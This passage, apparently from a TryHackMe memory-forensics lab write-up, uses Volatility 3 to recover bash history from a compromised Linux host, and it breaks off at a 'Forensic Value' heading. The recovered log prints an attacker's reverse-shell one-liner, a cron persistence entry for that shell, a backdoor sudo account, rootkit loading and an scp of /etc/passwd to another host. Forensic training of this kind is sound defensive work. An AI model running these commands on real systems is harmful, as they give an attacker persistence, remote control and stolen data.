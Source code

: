 ![image](https://github.com/user-attachments/assets/bd7d3846-cfe7-4e0d-9435-79b3a06a9e3a)

<br>

<h2> Task 7 . Hunting for User Activities</h2>
<p>When a system is compromised, attackers typically interact with it through command-line tools like bash, sh, or python. Their footprints are often left behind in memory long after processes have terminated. By analyzing shell history, terminal usage, and related metadata, we can reconstruct what commands were run, by whom, and in what context.</p>

<h3>Bash History</h3>

<p>We can use the following command to locate the footprints of the command history from users’ Bash sessions (.bash_history or in-memory structures), offering direct insight into what actions a user performed.<br><br>

Command: vol3 -f FS-01.mem linux.bash.Bash</p>

<p>Bash History</p>

```bash
ubuntu@tryhackme:~/Desktop/artifacts$ vol3 -f FS-01.mem linux.bash.Bash
Volatility 3 Framework 2.26.2
PID    Process    CommandTime    Command
14165    bash    2025-06-02 10:12:47.000000 UTC    useradd [REDACTED] -m -s /bin/bash
14165    bash    2025-06-02 10:13:07.000000 UTC    /sbin/useradd [REDACTED] -m -s /bin/bash
14165    bash    2025-06-02 10:13:10.000000 UTC    sudo su
14204    bash    2025-06-02 10:13:35.000000 UTC    /sbin/useradd [REDACTED] -m -s /bin/bash
14204    bash    2025-06-02 10:14:19.000000 UTC    echo '[REDACTED]secretP2ssw0rd!' | chpasswd
14204    bash    2025-06-02 10:14:33.000000 UTC    usermod -aG sudo [REDACTED]
14204    bash    2025-06-02 10:15:02.000000 UTC    mkdir /home/[REDACTED]/.ssh
14204    bash    2025-06-02 10:15:53.000000 UTC    sudo su - [REDACTED]
14204    bash    2025-06-02 10:34:33.000000 UTC    bash -i >& /dev/tcp/10.12.14.32/4567 0>&1
14204    bash    2025-06-02 10:51:34.000000 UTC    mkdir /tmp
14204    bash    2025-06-02 10:51:41.000000 UTC    cd /tmp/
14204    bash    2025-06-02 10:51:42.000000 UTC    ls
14801    bash    2025-06-02 10:36:23.000000 UTC    sudo su
14801    bash    2025-06-02 10:36:23.000000 UTC    Pf[
14847    bash    2025-06-02 10:36:27.000000 UTC    echo "* * * * * root bash -i >& /dev/tcp/10.12.14.32/4567 0>&1" >> /etc/crontab
14847    bash    2025-06-02 10:37:02.000000 UTC    isnmod rootkit.ko
14847    bash    2025-06-02 10:37:11.000000 UTC    insmod rootkit.ko
14847    bash    2025-06-02 10:39:46.000000 UTC    chmod +x /dev/shm/.runme.sh
14847    bash    2025-06-02 10:39:51.000000 UTC    /dev/shm/.runme.sh
14847    bash    2025-06-02 10:41:17.000000 UTC    scp /etc/passwd root@10.10.34.91:/home/
```


<p>The command's output is already placed in the bash_output file. The output shows the commands the user ran in the bash terminal. Some of the suspicious commands executed were related to suspicious account creation, SSH setup, setting up a cron job, etc.</p>

<h5>Forensic Value</h5>

<p>
